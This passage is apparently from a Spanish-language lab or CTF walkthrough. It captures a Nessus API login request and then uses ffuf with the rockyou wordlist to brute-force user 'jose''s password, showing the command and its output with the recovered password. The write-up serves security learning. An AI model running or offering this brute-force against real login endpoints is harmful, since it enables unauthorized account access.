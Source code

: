Vemos que se esta enviando a una `API` de `Nessus` con el parametro `session` y en la peticion veremos lo siguiente:

```
POST /session HTTP/1.1
Host: 192.168.1.164:8834
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
X-Api-Token: 3d27a65d-e7eb-40a0-8931-1d086d046d29
Content-Length: 37
Origin: https://192.168.1.164:8834
Referer: https://192.168.1.164:8834/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers
Connection: keep-alive

{"username":"jose","password":"jose"}
```

Vemos que se esta realizando con dicha estructura, por lo que vamos a formar un comando con `FFUF` para realizar fuerza bruta con el usuario `jose` de la siguiente forma:

```shell
ffuf -u https://<IP>:8834/session -X POST -H "Content-Type: application/json" -d '{"username":"jose","password":"FUZZ"}' -w <WORDLIST> -mc 200
```

Info:

```

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : https://192.168.1.164:8834/session
 :: Wordlist         : FUZZ: /usr/share/wordlists/rockyou.txt
 :: Header           : Content-Type: application/json
 :: Data             : {"username":"jose","password":"FUZZ"}
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200
________________________________________________

tequiero                [Status: 200, Size: 179, Words: 1, Lines: 1, Duration: 1124ms]
[WARN] Caught keyboard interrupt (Ctrl-C)
```
